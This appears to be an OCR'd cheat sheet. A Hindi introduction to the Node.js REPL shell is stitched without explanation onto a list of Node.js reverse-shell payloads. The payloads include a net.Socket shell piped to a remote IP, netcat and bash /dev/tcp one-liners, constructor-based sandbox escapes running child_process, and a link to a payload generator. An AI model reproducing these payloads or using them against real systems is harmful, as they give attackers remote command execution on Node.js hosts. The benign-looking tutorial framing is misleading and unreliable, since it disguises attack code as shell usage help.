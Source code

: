 NodeJS एक ओपन सोर्स, एकवर्षीय, एवं एक चालक वातावरण है जो जावास्क्रिप्ट चलाने के लिए उपयोग होता है। यह वेब सर्वर और नेटवर्क ऐप्लिकेशन विकसित करने के लिए उपयोग होता है। नोडजेएस एक एकवर्षीय वातावरण होने के कारण, यह अनुरोधों को असिंक्रोनस तरीके से प्रोसेस कर सकता है, जिससे यह अधिक उच्च प्रदर्शन देता है।

नोडजेएस के लिए शेल एक उपयोगी उपकरण हो सकता है, जिससे आप नोडजेएस एप्लिकेशन को नियंत्रित कर सकते हैं। शेल के माध्यम से, आप नोडजेएस एप्लिकेशन के लिए विभिन्न कार्रवाईयों को कर सकते हैं, जैसे कि एप्लिकेशन को शुरू करना, बंद करना, रीस्टार्ट करना, लॉग फ़ाइल्स को देखना, और अन्य निर्दिष्ट कार्रवाइयाँ करना।

शेल के लिए नोडजेएस एक्सेस प्राप्त करने के लिए, आपको नोडजेएस एप्लिकेशन के लिए एक शेल सत्र शुरू करना होगा। इसके लिए, आप निम्नलिखित कमांड का उपयोग कर सकते हैं:

```bash
node
```

शेल सत्र शुरू होने के बाद, आप नोडजेएस एप्लिकेशन के लिए विभिन्न कार्रवाइयों को कर सकते हैं। आप शेल में नोडजेएस कोड लिख सकते हैं और उसे प्रोसेस कर सकते हैं। इसके अलावा, आप शेल में नोडजेएस एप्लिकेशन के लिए विभिन्न मॉड्यूल्स को लोड कर सकते हैं और उन्हें उपयोग कर सकते हैं।

शेल सत्र से बाहर निकलने के लिए, आप `Ctrl + C` को दबा सकते हैं।
```javascript
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(8080, "10.17.26.64", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.10.14.2/6767 0>&1'")

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc [IPADDR] [PORT] -e /bin/bash')

or

// If you get to the constructor of a function you can define and execute another function inside a string
"".sub.constructor("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()
"".__proto__.constructor.constructor("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()


or

// Abuse this syntax to get a reverse shell
var fs = this.process.binding('fs');
var fs = process.binding('fs');

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```